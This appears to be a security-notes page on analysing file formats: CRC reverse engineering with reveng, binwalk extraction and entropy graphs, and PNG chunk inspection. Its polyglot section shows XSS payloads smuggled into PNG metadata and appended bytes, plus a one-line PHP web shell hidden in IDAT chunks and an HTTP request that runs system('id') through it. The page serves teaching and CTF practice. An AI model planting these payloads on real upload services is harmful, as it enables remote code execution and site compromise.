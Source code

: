 ```yaml
---
description: What to do with a file you don't understand
---
```


# File Formats

## Understanding common file formats

If you want to understand how a file format works, you should look at documentation online about it. Often these formats are not ASCII readable so you'll want to use a hex editor, such as `xxd`, `hexedit` or [hexyl](https://github.com/sharkdp/hexyl).&#x20;

A big collection of file formats made by Ange Albertini is the following (just scroll through until you find your format):

{% embed url="https://github.com/corkami/pics/blob/master/binary/README.md" %}
A big collection of drawings of file formats to understand them quickly
{% endembed %}

### CRCs: Cyclic Redundancy Checks

File formats often use a [Cyclic Redundancy Check (CRC)](https://en.wikipedia.org/wiki/Cyclic_redundancy_check) to validate if the bytes have been tampered with or corrupted slightly. See these as a checksum that combines all bytes into a small extra set of bytes that is different if you change even a single bit. These are not as strong as real hashing algorithms, but only output a few bytes. Preventing collisions is not their purpose, purely detecting accidental changes.

Because there are many different types of CRCs, a site like the following makes it easy to compare your data and output to reverse engineer exactly what algorithm was used. Then you can use this knowledge to create a correct checksum for any arbitrary data:

{% embed url="https://crccalc.com/" %}
Quickly view lots of well-known CRC of different sizes based on your input
{% endembed %}

[CRC `reveng`](https://reveng.sourceforge.io/) is another tool built for calculating the CRC parameters from enough samples, so it does not have to be a well-known algorithm.&#x20;

<details>

<summary>Compilation</summary>

Download and extract the source code, then run `make`. If you run into the following error, do as it says and change the `BMP_BIT` and `BMP_SUB` values inside `config.h`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
reveng: configuration fault.  Update config.h with these definitions and recompile:
        #define BMP_BIT   64
        #define BMP_SUB   32
<strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c bmpbit.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c cli.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c model.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c poly.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c preset.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c reveng.c
...
</code></pre>

Then you can install the tool using `sudo ln -s "$(pwd)"/reveng /usr/bin/reveng`.

</details>

<details>

<summary>Usage</summary>

Given a word length (often 8, 16 or 32), this tool can find the parameters of a CRC algorithmically. You need to provide hex strings that are followed by the CRC. Often these can be recognized by templated data (eg. lots of nulls or similar data) followed by 1, 2 or 4 random bytes which are the CRC. Take the following example:

{% code title="Hexdump" %}
```python
52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8
52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0  REC............./.e.
52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25  REC..............{0%
52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD  REC.................
```
{% endcode %}

It looks like the last 4 bytes of each row are pretty random. To crack the exact algorithm used, we simply provide them to `reveng` as hex strings and the 32-bit length we guessed52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ reveng -w32 -s \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38" \
</strong><strong>  "52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0" \
</strong><strong>  "52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25" \
</strong><strong>  "52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD"
</strong>
width=32  poly=0x04c11db7  init=0xffffffff  refin=true  refout=true  xorout=0xffffffff  check=0xcbf43926  residue=0xdebb20e3  name="CRC-32/ISO-HDLC"
</code></pre>

It found all parameters, and the preset name "CRC-32/ISO-HDLC". This is a well-known variant. Next, we can predict the CRC for any sequence of data by specifying a preset:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ reveng -m "CRC-32/ISO-HDLC" -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

This correctly computes the hash for the first string! If the tool did not find a named preset, you can still give it the raw parameters to achieve the same result:

<pre class="language-shell-session"><code class="lang-shell-session">$ reveng -w $WIDTH -p $POLY -i $INIT -x $XOROUT -c $INPUT_DATA
# # See -b, -B, -l, and -L for refin/refout values
<strong>$ reveng -w32 -p 0x04C11DB7 -i 0xFFFFFFFF -l -x 0xFFFFFFFF -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

</details>

## Binwalk

Sometimes when data tries to be hidden inside another file, it is just pasted right into the host file. Meaning that the bytes of the secret file are just somewhere in the other file. Using [binwalk](https://github.com/ReFirmLabs/binwalk) you can check for known file signatures in a file to see if it embeds something. \
Using the following command you can also recursively extract all of these into a `.extracted` folder:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ binwalk -eM file.bin
</strong>DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             TRX firmware header, little endian, image size: 37883904 bytes, CRC32: 0x95C5DF32, flags: 0x1, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x0, rootfs offset: 0x0
28            0x1C            uImage header, header size: 64 bytes, header CRC: 0x780C2742, created: 2018-10-10 02:12:20, image size: 2150281 bytes, Data Address: 0x8000, Entry Point: 0x8000, data CRC: 0xA097CFEA, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "DD-WRT"
92            0x5C            Linux kernel ARM boot executable zImage (little-endian)
2460          0x99C           device tree image (dtb)
23432         0x5B88          xz compressed data
23776         0x5CE0          xz compressed data
2117484       0x204F6C        device tree image (dtb)
3145756       0x30001C        UBI erase count header, version: 1, EC: 0x0, VID header offset: 0x800, data offset: 0x1000

<strong>$ binwalk --dd='.*' file.bin  # Another way to extract all file signatures
</strong></code></pre>

{% hint style="warning" %}
A common false positive with PNGs is `Zlib compressed data`. This is because PNG uses Zlib for compression in its own file format, so it is recognized by binwalk. But very often this compressed data just covers the entire file
{% endhint %}

You can also use binwalk to understand an unknown file better, by looking at the **entropy** for example. Entropy is how random a certain sequence of bytes is. Simple ASCII text is pretty predictable and stays within about the same range, so the entropy would be low. But for completely random/encrypted bytes the entropy should be really high, close to 1. You can get a graph of the entropy of the file using the `-E` flag:

```shell-session
$ binwalk -E file.bin
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>An example of a firmware image showing various amounts of entropy (<a href="https://allabouttesting.org/short-tutorial-firmware-analysis-tool-binwalk/">source</a>)</p></figcaption></figure>

This can give a good idea about what parts of a file you could look at.&#x20;

## PNG

Image files like PNG can have a lot of hidden info. It's a relatively complex file format with a lot of room for secrets.&#x20;

A quick check you can do to see if it is a completely valid PNG file is using [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcheck -h
</strong>Test PNG, JNG or MNG image files for corruption, and print size/type info.

Usage:  pngcheck [-7cfpqtv] file.{png|jng|mng} [file2.{png|jng|mng} [...]]
   or:  ... | pngcheck [-7cfpqstvx]
   or:  pngcheck [-7cfpqstvx] file-containing-PNGs...

Options:
   -7  print contents of tEXt chunks, escape chars >=128 (for 7-bit terminals)
   -c  colorize output (for ANSI terminals)
   -f  force continuation even after major errors
   -p  print contents of PLTE, tRNS, hIST, sPLT and PPLT (can be used with -q)
   -q  test quietly (output only errors)
   -s  search for PNGs within another file
   -t  print contents of tEXt chunks (can be used with -q)
   -v  test verbosely (print most chunk data)
   -x  search for PNGs within another file and extract them when found

<strong>$ pngcheck image.png
</strong>OK: image.png (1920x1080, 32-bit RGB+alpha, non-interlaced, 96.6%).
</code></pre>

PNG files consist of **chunks** of bytes that tell something about the image. The most common one is `IDAT` which contains the pixel data of the image. An image always ends with `IEND` and 4 checksum bytes (every chunk has the checksum).&#x20;

You might see custom chunks being used to embed data, or data appended to the end, after `IEND`.&#x20;

### Embed Raw Data (Polyglots)

You might find some applications where you are allowed to upload files and find that you can either give them a `.php` extension to create a web shell or make the `Content-Type: text/html` to render tags inside the raw bytes for [cross-site-scripting-xss](../web/client-side/cross-site-scripting-xss/ "mention"). In either case, this application might validate or even transform your image in a way that does not preserve all the original bytes, breaking your payload.&#x20;

While you might be able to include **metadata** with tools like `exiftool`, these might be stripped by the server upon saving your file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -Comment='&#x3C;svg/onload=alert()>' example.png
</strong>    1 image files updated
<strong>$ hd example.png
</strong>00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
...
00000080  e0 b6 b6 f4 d1 0d 53 22  0d 14 00 00 00 1c 74 45  |......S"......tE|
<strong>00000090  58 74 43 6f 6d 6d 65 6e  74 00 3c 73 76 67 2f 6f  |XtComment.&#x3C;svg/o|
</strong><strong>000000a0  6e 6c 6f 61 64 3d 61 6c  65 72 74 28 29 3e ad 30  |nload=alert()>.0|
</strong>000000b0  14 57 00 00 08 7d 49 44  41 54 78 5e ec ce 31 0d  |.W...}IDATx^..1.|
</code></pre>

Another trick is simply appending data to the end of the file. This would not pass as a valid PNG anymore, but could survive on the server:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo '&#x3C;svg/onload=alert()>' >> example.png
</strong>
<strong>$ hd example.png
</strong>...
000009d0  5a b3 07 54 ac 7b 51 fb  78 a7 ea 00 00 00 00 49  |Z..T.{Q.x......I|
<strong>000009e0  45 4e 44 ae 42 60 82 3c  73 76 67 2f 6f 6e 6c 6f  |END.B`.&#x3C;svg/onlo|
</strong><strong>000009f0  61 64 3d 61 6c 65 72 74  28 29 3e 0a              |ad=alert()>.|
</strong>000009fc
</code></pre>

Lastly, there is a technique more resistant to transformation by using the **IDAT chunks**. These normally include compressed DEFLATE data representing the pixels themselves, but this process can be reversed to obtain a string of pixels that compress into a payload like:

```php
<?=$_GET[0]($_POST[1]);?>
```

If the payload above is executed, you can provide a function you want to call like `system()` as the query parameter `0`, and an argument you want to give the function in a `1` body parameter.&#x20;

<pre class="language-http"><code class="lang-http"><strong>POST /shell.php?0=system HTTP/1.1
</strong>...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

<strong>1=id
</strong></code></pre>

The process of creating these and a few example payloads are described in the following post, which also shows an XSS payload with the same idea:

{% embed url="https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/" %}

## Archives (ZIP, TAR, 7z, etc.)

{% content-ref url="archives.md" %}
[archives.md](archives.md)
{% endcontent-ref %}
